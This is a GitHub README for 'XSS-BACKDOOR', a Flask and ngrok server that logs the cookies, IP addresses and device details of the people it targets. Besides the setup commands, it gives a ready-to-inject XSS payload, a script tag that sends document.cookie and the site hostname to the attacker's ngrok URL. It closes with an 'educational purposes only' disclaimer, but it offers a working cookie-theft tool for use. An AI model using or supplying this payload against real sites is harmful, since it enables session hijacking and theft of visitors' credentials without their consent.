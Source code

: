 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and IP address, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs client IP address and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/yourusername/trap-backdoor.git
   cd trap-backdoor
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the script:
   ```bash
   python main.py
   ```
4. The script will generate an `ngrok` URL, which can be used to collect visitor information.
5. Payload URL:
   ```html
   <script>var i=new Image;i.src="NGROK_URL/?" + document.cookie + "&host=" + document.location.hostname;</script>
   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
MIT License. See [LICENSE](LICENSE) for more details.

